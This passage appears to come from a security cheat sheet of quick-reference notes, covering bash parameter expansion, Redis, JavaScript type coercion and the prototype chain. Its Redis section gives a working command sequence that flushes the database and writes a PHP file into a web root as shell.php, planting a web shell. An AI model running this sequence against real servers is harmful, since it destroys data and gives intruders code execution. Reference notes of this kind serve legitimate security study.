   | `${x/1/3}`            | a3 b1 c2 d2     |
  | `${x//1/3}`           | a3 b3 c2 d2     |
  | `${x//?1/z3}`         | z3 z3 c2 d2     |
  | `${x:0:2}`            | a1              |
- Command
  - printf

    ```bash
    printf '%s.' a b c
    ------------------
    a.b.c.
    ```

### Redis
- Write file

  ```
  FLUSHALL
  SET payload "<?php phpinfo() ?>"
  CONFIG SET DIR /var/www/html/
  CONFIG SET DBFILENAME shell.php
  SAVE
  ```

- [RCE](https://2018.zeronights.ru/wp-content/uploads/materials/15-redis-post-exploitation.pdf)

### JavaScript
- Reference
  - [wtfjs](https://github.com/denysdovhan/wtfjs)
  - [JavaScript Truth Table](https://thomas-yang.me/projects/oh-my-dear-js/)
  - [你懂 JavaScript 嗎？#8 強制轉型（Coercion）](https://ithelp.ithome.com.tw/articles/10201512)
- Weak Type (comparison `==`)
  - [] == 0
  - [] == "0"
  - ['a', ['b', 'c']] == "a,b,c"
  - "b" + "a" + + "a" + "a" == baNaNa
- Prototype Chain
  ```
  __proto__ 
  ─────────>
                                      
         ┌─────────────────────────────┐ ┌───────────────────────────────────────────────────┐
         │                             │ │                                                   │
         │                             │ │                                                   │
         │                             │ │                   ┌──────┐                        │
         │                             │ │                   │ null │                        │
         │                             │ │                   └──────┘                        │
         │                             │ │                      ↑                            │
         │                             ↓ ↓                      │                            │
  ┌────────────┐    prototype┌────────────────────┐    ┌──────────────────┐  constructor┌──────────┐
  │ Function() │─────────────│ Function.prototype │───>│ Object.prototype │─────────────│ Object() │
  └────────────┘constructor  └────────────────────┘    └──────────────────┘prototype    └──────────┘
                                        ↑                       ↑          
                                        │                       │
                                     ┌─────┐    prototype┌─────────────┐
                                     │ A() │─────────────│ A.prototype │
                                     └─────┘constructor  └─────────────┘
                                                                ↑          
                                                                │
  ```